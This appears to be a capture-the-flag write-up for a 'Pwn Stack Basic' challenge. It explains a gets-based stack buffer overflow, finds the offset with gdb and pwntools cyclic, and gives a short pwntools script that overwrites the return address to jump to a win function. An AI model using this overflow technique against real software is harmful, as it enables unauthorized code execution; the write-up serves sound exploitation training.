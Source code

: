 # Pwn Stack Basic

## Description

A win return question

## Analysis

The vulnerable function is vuln, because the gets is dangerous. It will cause buf overflow and overwrite things.

The code also show our target is win function.

The approach will be overwrite the return to make the vuln return to win function.

![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/2178ca9f-406c-4474-8ebd-5fcf55a33ced)

## Solution

Lets use gdb, and first check the position of the win
![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/f2fb9eaa-6ad1-49fb-8296-ebb391f47a73)

Then run it '(gdb) run'

Need to use pwntool cyclic to generate unic string, because we will check what we overwrite and those unique string will help identify

```
import pwn

pattern = pwn.cyclic(100)  # creates a unique pattern of 100 characters
print(pattern)
```
it will generate this b'aaaabaaacaaadaaaeaaafaaagaa....'

And input it. It will crush the program because we successful overwrite something
![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/137a0b94-886e-4957-b4a1-aff52c257998)

Now lets check registers, and use the value in eip

![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/bb4b6be3-3ab4-42df-8d90-11ab3b8ffd5b)

Use the pwntool cyclic_find to know the distance of overwrite return
```
import pwn

offset = pwn.cyclic_find(0x61716161) # use the eip value 
print(offset)

```
The result will be 62, Lets build our payload
```
import pwn

io = pwn.remote(challenge address)

io.sendline()

payload = b"A"*62 + pwn.p32(0x08048526)

io.sendline(payload)
io.interactive()
```

The Flag ！
![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/e89ebb9b-9896-4ebe-a074-d0dd264468d3)


Can also use ghidra
![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/e846c80a-c79e-4d2c-845f-81f1f779130c)

## Conclusion
